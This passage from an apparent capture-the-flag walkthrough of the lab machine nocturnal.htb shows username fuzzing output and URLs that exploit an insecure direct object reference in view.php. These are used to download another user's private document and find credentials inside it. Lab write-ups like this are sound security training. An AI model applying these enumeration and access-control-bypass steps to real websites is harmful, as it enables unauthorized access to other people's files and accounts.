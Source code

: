 ```
 :: Timeout          : 10
 :: Threads          : 50
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

admin                   [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 109ms]
123                     [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 118ms]
amanda                  [Status: 200, Size: 3113, Words: 1175, Lines: 129, Duration: 116ms]
administrator           [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 113ms]
tobias                  [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 108ms]
```

We found some users, for example, the `amanda` and `tobias` usernames seems weird, knowing the usernames, we can now check the url again and use the username:

![](cybersecurity/images/Pasted%2520image%252020250414145432.png)

Still getting the invalid file extension, if we remember them right, we can use any of them:

```
http://nocturnal.htb/view.php?username=amanda&file=.pdf
```

We get this:


![](cybersecurity/images/Pasted%2520image%252020250414145506.png)

There is a hidden file inside: `privacy.odt`, we can download it:

```
http://nocturnal.htb/view.php?username=amanda&file=privacy.odt
```

If we get it, we can see this:

```
file privacy.odt
privacy.odt: Zip archive, with extra data prepended
```

In order to extract a `.odt` file, we can use:

```
unzip privacy.odt -d privacy_content
```


We get this:

![](cybersecurity/images/Pasted%2520image%252020250414145630.png)

If we check content.xml, we can see the following:


![](cybersecurity/images/Pasted%2520image%252020250414145723.png)

There we go, we got credentials for `amanda`:
